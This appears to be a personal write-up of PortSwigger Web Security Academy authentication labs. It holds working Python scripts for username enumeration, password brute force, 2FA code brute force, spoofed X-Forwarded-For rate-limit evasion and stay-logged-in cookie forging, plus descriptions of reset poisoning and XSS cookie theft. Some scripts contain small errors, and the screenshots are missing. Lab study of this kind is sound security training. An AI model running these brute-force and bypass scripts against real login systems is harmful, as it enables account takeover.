

# Portswigger Writeups

## Lab 1: Username Enumeration

To solve this lab, brute force the credentials with the given wordlists to login.

This website shows 'Invalid username` when an invalid username is used:


I scripted this entire process. First, I brute forced the username to find that `archie` was valid.

```python
users = open('users.txt','r')
for i in users:
	trial = i.rstrip('\n')
	login_data = {
		'username':trial,
		'password':'test'
	}
	r = s.post(url + '/login', proxies=proxies, data=login_data, cookies=cookies, verify=False)
	if 'Invalid username' not in r.text:
		print(f'[+] Valid username: {trial}')
		sys.exit(1)
```

Afterwards, brute force the password based on the fact that 'Incorrect password' is printed on the screen:


```python
passwords = open('pass.txt','r')
for i in passwords:
	trial = i.rstrip('\n')
	login_data = {
		'username':'archie',
		'password':trial
	}
	r = s.post(url + '/login', proxies=proxies, data=login_data, cookies=cookies, verify=False)
	if 'Incorrect password' not in r.text:
		print(f'[+] Valid password: {trial}')
		sys.exit(1)
```

`zxcvbn` is the correct password. This script auto-solves the lab.

## Lab 2: 2FA Bypass

This lab gives us valid credentials, and requires us to bypass the 2FA to solve the lab. I have access to an email client for this lab.

When logging in using `wiener` credentials, I can see that I am emailed a code:


This is used for the 2FA mechanism:


I noticed that when logging in with `carlos` creds, I saw this GET request to `/login2`:


The above led to the 2FA portion. I dropped this request, and directly visited `/my-account?id=carlos`. This solved the lab!

## Lab 3: Broken Password Reset

This lab has a password reset feature that's broken. This requires a username / email:


Submitting that results in this email:


This brought me here:


When submitted, it resulted in a POST request being sent, and it had a `username` parameter:


I changed the `username` to `carlos`, and could login with the password of `test` which I specified.

## Lab 4: Username Enum using Subtly different responses

This lab requires us to brute force again, but this time the condition for a valid username results in a subtly different response.

Entering random creds results in the same error:


For this case, I used the same brute force script, but this time I outputted the response text into a file and then compared it when the next request.

This would ensure that I capture every difference. I copied the HTML from a request into a `sample.txt`.

However, this method didn't really work since each of the responses had a different ID for analytics purposes:

```
$ diff sample.txt out.txt  
10c10
<         <script>fetch('/analytics?id=3099042762')</script>
---
>         <script>fetch('/analytics?id=916324608')</script>
```

In this case, I opted to compare the error message of each file:

```
<p class=is-warning>Invalid username or password.
```

This can be done using a simple regex check to see if the string exists on the page:

```python
match = re.search(r'(Invalid username or password\.)', r.text)
if not match:
	print(f'[+] Found diff response using: {trial}')
	find_password(trial)
```

The above would return a different result for the `atlas` user, which I manually verified:


The above message does not have a fullstop, and as such I could find a valid user and solve the lab:

```python
import requests
import re
import sys
import itertools
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0abd00b00398cb7781d4614000ea00c6'
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
url = f'https://{HOST}.web-security-academy.net'
cookies = {
	'session':'QvqnVhG9TBcT2TXbw18p5lp2oddBgqw1'
}
s = requests.Session()

def find_user():
	users = open('users.txt','r')
	for i in users:
		trial = i.rstrip('\n')
		login_data = {
			'username': trial,
			'password': 'test'
		}
		r = s.post(url + '/login', proxies=proxies, data=login_data, cookies=cookies, verify=False)
		match = re.search(r'(Invalid username or password\.)', r.text)
		if not match:
			print(f'[+] Found diff response using: {trial}')
			find_password(trial)

def find_password(user):
	passwords = open('pass.txt','r')
	for i in passwords:
		trial = i.rstrip('\n')
		login_data = {
			'username':user,
			'password':trial
		}
		r = s.post(url + '/login', proxies=proxies, data=login_data, cookies=cookies, verify=False)
		if 'Invalid username or password' not in r.text:
			print(f'[+] Valid password for {user}: {trial}')
			sys.exit(1)

find_user()
```

## Lab 5: Response Timing Enumeration with Brute Force Bypass

When testing with a valid user `wiener`, the length of the password entered changes the response time.


With a short password it takes 389 ms. With a much longer password, it takes longer! 


A few attempts causes this error message to appear though:


This can be bypassed using the `X-Forwarded-For` header. Using this, I can create a script to enter a really long password, and check the response time. If I get blocked, I can just modify the `X-Forwarded-For` header to bypass the IP ban. 

I used a really long password to get a very long response time. Here's the `find_user` function:

```python
def find_user():
	users = open('users.txt','r')
	num = 1

	for i in users:
		trial = i.rstrip('\n')
		headers = {
	 		'X-Forwarded-For':f'192.168.0.{str(num)}'
		}
		login_data = {
			'username': trial,
			'password': long_password
		}
		r = s.post(url + '/login', proxies=proxies, data=login_data, cookies=cookies, verify=False, headers=headers)

		if 'You have made too many incorrect' in r.text:
			num += 1
			headers = {
	 			'X-Forwarded-For':f'192.168.0.{str(num)}'
			}
			## resend rq
			r = s.post(url + '/login', proxies=proxies, data=login_data, cookies=cookies, verify=False, headers=headers)		

		if r.elapsed.total_seconds() > 3:
			print(f'[+] Found user: {trial}')
			return trial
```

This would find the usename `affiliate`. From here, the `find_password` function is similar. Note that this uses `192.168.2.0/24` now.

```python
def find_password(user):
	passwords = open('pass.txt','r')
	num = 1
	for i in passwords:
		trial = i.rstrip('\n')
		headers = {
	 		'X-Forwarded-For':f'192.168.0.{str(num)}'
		}
		login_data = {
			'username':user,
			'password':trial
		}
		r = s.post(url + '/login', proxies=proxies, data=login_data, cookies=cookies, verify=False, headers=headers)

		if 'You have made too many incorrect' in r.text:
			num += 1
			headers = {
	 			'X-Forwarded-For':f'192.168.2.{str(num)}'
			}
			r = s.post(url + '/login', proxies=proxies, data=login_data, cookies=cookies, verify=False, headers=headers)	
		if 'Invalid username or password' not in r.text:
			print(f'[+] Valid password for {user}: {trial}')
			sys.exit(1)
```

When `find_password` exits, the lab will be solved.

## Lab 6: Brute Force Protection Bypass

This lab has a similar protection to the previous lab, except that now there is no `X-Forwarded-For` header to use. This time, the lab gave us the valid username of `carlos`.

When I tried 3 times, it blocked me:


I tried again, and this time before my third try, I logged into the `wiener` account. This reset the number of tries I had, and I could continue after logging out.

This script was pretty easy to code.


```python
def find_password():
	passwords = open('pass.txt','r')
	state = 1

	for i in passwords:
		trial = i.rstrip('\n')

		trial_data = {
			'username':'carlos',
			'password':trial
		}
		if state == 0 or state == 1:
			r = s.post(url + '/login', proxies=proxies, data=trial_data,verify=False)
			
			if 'Incorrect password' not in r.text:
				print(f'[+] Valid password for carlos: {trial}')
				sys.exit(1)
			else:
				state += 1
				continue
		else:
			wiener_r = s.post(url + '/login', proxies=proxies, data=wiener_data, verify=False)
			wiener_r = s.get(url + '/logout', proxies=proxies, verify=False)
			state = 0
```

## Lab 7: Username Enumeration via Account Lock

This lab has account locking, but contains a logic flaw. To solve the lab, login as the valid user. 

Based on the lab hint, I expected that brute force attempts would eventually block my account, but that was not the case with the random usernames I was using.

My guess was that repeated attempts **with the valid username** would result in me getting blocked.

As such, I created a script to send 5 requests per username, and check whether the response contained the `Invalid username or password` error. 

```python
users = open('users.txt', 'r')
for u in users:
	for i in range(6):
		data = {
			'username':u.strip(),
			'password':'test'
		}
		r = s.post(url + '/login', data=data, verify=False, proxies=proxies)
		if 'Invalid username or password' not in r.text:
			print(f'[+] Different response observed for {u}')
			sys.exit(0)
```

This would return a different response for the `alabama` user:

```
$ python3 lab8.py
[+] Different response observed for alabama
```

When checking the response, I saw that it displayed the account lockout error:


Now, time to brute force the password. While I could make the script sleep for 61s after encountering account lockout, that would take too long. Instead, I tried to brute force the password by checking whether the `Invalid username` and `You have many too many incorrect login attempts` errors were present.

This worked! Here's the final script to solve the lab:

```python
def find_password(user):
	passwords = open('pass.txt','r')
	for p in passwords:
		data = {
			'username':user,
			'password':p.strip()
		}
		r = s.post(url + '/login', data=data, verify=False, proxies=proxies)
		
		if 'Invalid username or password' not in r.text and 'You have made too many incorrect login attempts.' not in r.text:
				print(f'[+] Password for {user} is {p}.')
				return


def find_user():
	users = open('users.txt', 'r')
	for u in users:
		for i in range(6):
			data = {
				'username':u.strip(),
				'password':'test'
			}
			r = s.post(url + '/login', data=data, verify=False, proxies=proxies)
			if 'Invalid username or password' not in r.text:
				print(f'[+] Different response observed for {u}')
				return u.strip()

user = find_user()
password = find_password(user)
time.sleep(61)
data = {
	'username':user
	'password':password
}
r = s.post(url + '/login', data=data, verify=False, proxies=proxies)
```

## Lab 8: 2FA Broken Logic

This lab has vulnerable 2FA logic. When taking a look at the login process for the `wiener` user, I saw this:


It seems that the page with the 2FA logic has a `verify` cookie that looks exploitable.

There's also a GET request with the same parameters:



I also noticed that the 2FA feature did not have any brute force protection, and I was free to try this as many times as I wanted. Resending the GET request generates another 2FA code.

There seemed to be no other way of getting credentials, so I scripted the following:

1. Send a GET request to `login2` to generate the 2FA code for `carlos`.
2. Brute force all 4 digit numbers.

```python
import requests
import re
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0aca0091049d510182f26f48009d0023'
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
url = f'https://{HOST}.web-security-academy.net'
s = requests.Session()

cookies = {
	'verify':'carlos'
}

r = s.get(url + '/login2', verify=False, proxies=proxies, cookies=cookies)
if "Please enter your 4-digit" not in r.text:
	print('[-] Failed to generate 2FA for carlos')
	sys.exit(1)

print('[+] Generated 2FA for carlos')

while True:
	for i in range(10000):
		mfa = '{0:04}'.format(i)
		data = {
			'mfa-code':mfa
		}
		r = s.post(url + '/login2', verify=False, proxies=proxies, cookies=cookies, data=data)
		if 'Incorrect security code' not in r.text:
			print(f'[+] Correct code: {mfa}')
			s.get(url + '/my-account?id=carlos', verify=False, proxies=proxies, cookies=cookies)
			sys.exit(1)
```

This script will solve the lab...eventually.

## Lab 9: Stay-Logged-In Cookie

This lab has a vulnerable stay logged in cookie. For this, I have to do brute forcing of the password for `carlos`.

When I logged in as `wiener` and chose to stay logged in, there was a cookie passed:


A quick check on CrackStation reveals that this hash was an MD5 hash for `peter`.

I can quickly create a brute force script for this, since I can attempt to access `carlos` account using this cookie.

```python
import requests
import re
import sys
import hashlib
import base64 
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0aab005b04c539908141ace600e000b0'
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
url = f'https://{HOST}.web-security-academy.net'
s = requests.Session()

passwords = open('pass.txt', 'rb')
for i in passwords:
	hashed_password = hashlib.md5(i.strip()).hexdigest()
	plaintext = 'carlos:' + str(hashed_password)
	plaintext = plaintext.encode("ascii")
	base64_bytes = base64.b64encode(plaintext) 
	carlos_cookie = base64_bytes.decode("ascii")
	cookies = {
		'stay-logged-in':carlos_cookie
	}
	r = s.get(url + '/my-account?id=carlos', cookies=cookies, proxies=proxies, verify=False)
	if 'Your username is:' in r.text:
		print(f"Password is {i}")
		sys.exit()
```

The script above solves the lab. 

## Lab 10: Offline password cracking

To solve this lab, delete `carlos` account. T his lab contains an XSS in the comment section, and I am given an exploit server. 

Tested the XSS:


And found that it works:


Now, I need to set the URL to the exploit server's, and steal the user's cookie via `document.cookie`. 

I used this payload:

```

```

And received the callback immediately:


The `stay-logged-in` cookie can be decoded using `base64`:

```
$ echo Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz | base64 -d
carlos:26323c16d5f4dabff3bb136f2460a943
```

And the hash can be cracked on CrackStation:


Log in as `carlos` and delete the account to solve the lab.

## Lab 11: Password Reset Poisoning via Middleware

I'm given an exploit server with an email account. The `carlos` user also clicks on any links received. To solve the lab, log in as `carlos`.

I sent a password reset email to myself:


The POST request for this is rather interesting. Repeating the request sends another email.

I tampered with the request, and played around with it. I read through all the headers in the Mozilla documentation, and found that `X-Forwarded-Host` had some interesting effects.

I changed the value to `test.com`.


So I can change the host. This header is used to identify the original host requested by the client in the `Host` HTTP request header.

Since the user does not check the URL, I can redirect `carlos` to the exploit server by setting the header to the exploit server URL.

In the request, change the `username` parameter to `carlos`. In the access log, I will see this after sending the POST request.


I can then use the `temp-password-token` to reset the password for `carlos`.

## Lab 12: Password Brute Force via Password Change

This lab has a vulnerable reset password feature. Logging in as `wiener` shows this:


Using this feature sends a POST request:


This returns a redirect to `/login` if I use a bogus `current-password`. Using the correct `current-password` results in a 200 being returned with this page:


I can change the `username` to `carlos` and attempt to brute force this password. However, this method does not work. 

I noticed that when I used the correct current password, but different values for `new-password-1` and `new-password-2`, this error is displayed:


When I used the wrong current password, it shows this instead:


That's a pretty easy vulnerability to script and exploit:

```python
cookies = {
	'session':'wiener-cookie'
}

passwords = open('pass.txt','r')
for p in passwords:
	data = {
	'username':'carlos',
	'current-password':p.strip(),
	'new-password-1':'1234',
	'new-password-2':'5678'
}
	r = requests.post(url + '/my-account/change-password', data=data, verify=False, proxies=proxies, cookies=cookies)
	
	if 'New passwords do not match' in r.text:
		print(f'[+] Password for carlos is {p}.')
		sys.exit(0)
```

